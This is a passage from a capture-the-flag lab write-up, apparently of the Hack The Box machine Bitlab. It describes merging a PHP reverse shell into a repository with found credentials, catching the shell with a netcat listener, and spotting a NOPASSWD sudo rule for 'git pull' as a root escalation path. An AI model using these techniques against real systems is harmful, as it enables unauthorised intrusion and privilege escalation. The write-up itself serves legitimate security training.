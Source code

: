 <p>Using the credentials discovered above we are able to get into the console as <code>clave</code>. A quick poke around and looks like he has a Developer role on the project Administrator / Profile. After examining the project a bit we realize that while we can't upload directly to the master branch our user <code>clave</code> has merge rights. We could in theory create a separate branch, upload our php reverse shell script and the approve the merge request as <code>clave</code>. Sure enough, this was quickly accomplished and we managed to get a reverse shell up and running.</p>

<p>
<img src="{{ '/assets/htb-bitlab/recon-reversesh3.PNG' | relative_url }}">
</p>

<p>
<img src="{{ '/assets/htb-bitlab/recon-reversesh2.PNG' | relative_url }}">
</p>

{% highlight shell %}
root@kali:~# nc -lnvp 1337
Listening on [0.0.0.0] (family 2, port 1337)
Connection from 10.10.10.114 56868 received!
Linux bitlab 4.15.0-29-generic #31-Ubuntu SMP Tue Jul 17 15:39:52 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:04:25 up 6 min,  1 user,  load average: 1.78, 1.11, 0.62
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
clave    pts/0    10.10.15.14      15:02    1.00s  0.00s  0.00s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}

<p>Unfortunately www-data was not our true user in this case. With that said however we are able to escalate directly to root from www-data and retroactively get the user.txt flag.</p>

<h1>Root exploitation</h1>

<p>As part of the initial enumeration once getting the www-data shell we notice an interesting sudo rule:</p>

{% highlight shell %}
www-data@bitlab:/home/clave$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
www-data@bitlab:/home/clave$ 
{% endhighlight %}

<p>So we are able to run <code>git pull</code> straight as root?! Now we're talking. Quickly looked at what git repos were hosted locally that we may not have seen previously from the web portal.</p>

{% highlight shell %}
www-data@bitlab:/var/tmp$ find / -type d -name ".git" 2> /dev/null         
find / -type d -name ".git" 2> /dev/null
/srv/apps/profile/.git
/var/www/html/profile/.git
/var/www/html/deployer/.git
{% endhighlight %}
